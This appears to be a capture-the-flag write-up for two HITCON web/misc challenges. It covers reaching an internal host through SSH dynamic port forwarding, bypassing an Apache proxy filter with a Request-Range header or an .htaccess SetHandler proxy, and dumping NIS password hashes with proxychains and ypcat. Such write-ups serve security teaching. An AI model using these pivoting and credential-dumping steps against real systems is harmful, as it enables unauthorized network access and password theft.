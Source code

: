 # Personal Web Space 1
- Tags: `web`, `misc`
- Score: 262/500
- Solves: 27

## Description
> Your dream space to create your own website.
> 
> <http://www.pws.chal.hitconctf.com/>

## Overview
![infra](infra.svg)
<!-- digraph {
    rankdir="LR";
    node [shape=ellipse];
    login [label="login (node20)\n172.26.0.20"];
    web [label="web (node10)\n172.26.0.10"];
    
    node [shape=box];
    internal;

    edge [fontsize=12]
    web -> login [label="nis" len=4];
    login -> web [label="home" len=4];
    web -> internal [label="http" len=2.5 lp=""];
    login -> internal [label="\nTCP\nforward" len=2.5];

    overlap=true;
    splines=line;
}
-->

ssh (sftp) TCP forwarding + access LAN

## Recon
1. By scanning or direct access, one can get robots.txt -> flag.txt, apache2.zip.
2. Read apache2 conf, find that /flag.txt is ProxyPass to http://internal/flag.txt, but flag got substituted.  
   In addition, `Range` header has been unset.  
   ```apache
   # location /flag.txt -> reverse proxy to the internal/flag.txt
   <Location /flag.txt>
      ProxyPass http://internal/flag.txt
      # what are u trying to do?
      RequestHeader unset Range

      # censor flags in the response
      AddOutputFilterByType SUBSTITUTE text/plain
      Substitute "s/hitcon\{.*?\}/hitcon\{**censored**\}/"
   </Location>
   ```
3. SFTP is run by openssh-server.  
   Read /etc/ssh/sshd_config with sftp, find that group `webuser` has been restricted to `internal-sftp` by `ForceCommand`, so no shell access.  
   ```ssh-config
   Match Group webuser
     ForceCommand internal-sftp
   ```

## Solution
Look further, you can notice that `AllowTcpForwarding` defaults to `yes`, and there is no further restriction on group `webuser`.

In addition, if you look at last few lines of sshd_config, you will see example for `anoncvs`:
```ssh-config
#Match User anoncvs
#       X11Forwarding no
#       AllowTcpForwarding no
#       PermitTTY no
#       ForceCommand cvs server
```
`AllowTcpForwarding` is explicitly set to `no` here, which would be the hint for use TCP forwarding feature.


Create dynamic forwarding tunnel with no tty (`-N`).  
```bash
ssh -D 4090 -N userXXX@file.pws.chal.hitconctf.com
```

Then you can fetch the internal server through tunnel (`-x socks5h` for DNS lookup through proxy).  
```bash
curl -x socks5h://localhost:4090 http://internal/flag.txt
```

## Unintended Solution
### `Request-Range`
Quite old (MSIE3 and Netscape 2 and 3) header works like `Range`, but apache still supports it.  
Ref: https://cwiki.apache.org/confluence/display/HTTPD/CVE-2011-3192

### `SetHandler "proxy:xxx"`
apache2/mods-enabled/userdir.conf has `FileInfo` in `AllowOverride` by default.
```apache
UserDir public_html
UserDir disabled root

<Directory /home/webuser/*/public_html>
	AllowOverride FileInfo AuthConfig Limit Indexes
	Options MultiViews Indexes SymLinksIfOwnerMatch IncludesNoExec
	Require method GET POST OPTIONS
</Directory>
```

`FileInfo` includes `SetHandler`[^1]; in addition, if you refers to `SetHandler` [docs](https://httpd.apache.org/docs/2.4/mod/core.html#sethandler) or mod_proxy [docs](https://httpd.apache.org/docs/2.4/mod/mod_proxy.html#handler), you would notice that `SetHandler` can be used to setup proxy.

Therefore, following config in `.htaccess` does the trick:

```apache
SetHandler "proxy:http://internal/flag.txt?"
```

Notice the trailing `?`, it escapes the original path that is concatenated at the end of url proxied to internal node.

```
172.26.0.10 - "GET /flag.txt/home/webuser/user1/public_html/ HTTP/1.1" 404 196
172.26.0.10 - "GET /flag.txt HTTP/1.1" 304 -
172.26.0.10 - "GET /flag.txt HTTP/1.1" 304 -
172.26.0.10 - "GET /flag.txt?/home/webuser/user1/public_html/ HTTP/1.1" 200 45
```

[^1]: https://httpd.apache.org/docs/2.4/mod/overrides.html#override-fileinfo

## Flag
<details>
<summary>Spolier</summary>

`hitcon{My_l4n_had_b33n_sEEn_through_why??!!}`
</details>

---

# Personal Web Space 2
- Tags: `misc`
- Score: 305/500
- Solves: 15

## Description
> Dear hacker,  
> I noticed that someone called flagholder has the flag, can you login to his account to find the secret for me?  
> Flag format: `hitcon{<unix password hash of flagholder>}`

## Overview
ssh (sftp) TCP forwarding + access LAN + NIS credential dump

## Recon
Read /etc/passwd on login node, and see no `flagholder` and other webusers but `+::::::`.  
Then check `/etc/nsswitch.conf`, you will see `nis`.

## Solution
To dump the passwd on the NIS master, one can use `ypcat`.  
But it needs info about who is the NIS master and what is the NIS domain.  

The system is built on Ubuntu (debian-based), so one can refer to Debian [wiki](https://wiki.debian.org/BullseyeNis#A2) for NIS setup on Debian.  
Simply read `/etc/yp.conf` on login node for NIS server hostname (`node10`), and `/etc/defaultdomain` for NIS domain (`hitcon`).

In addition, one need to find the IP address for `node10`.  
This can be done by reading /proc/net/arp on login node:
```
IP address       HW type     Flags       HW address            Mask     Device
172.26.0.1       0x1         0x2         02:42:eb:9c:c3:4d     *        eth0
172.26.0.10      0x1         0x2         02:42:ac:1a:00:0a     *        eth0
```
Or reading `/etc/hosts`:
```
172.26.0.20     node20.hitcon node20
```
To infer that `node10` is `172.26.0.10`.

`man ypcat`
```
ypcat [ -kt ] [ -d domain ] [ -h hostname ] mapname
```

Run ypcat with collected hostname/domain through proxychains to pass traffic through the tunnel.  
```bash
proxychains ypcat passwd -h 172.26.0.10 -d hitcon
```

## Flag
<details>
<summary>Spolier</summary>

`hitcon{$y$j9T$LNmGE79e0l4Rj6bKhTosA1$rP24Qc3XWuTvNKKn0fes4WWjbcptfskAaRQInBbKIO2}`
</details>

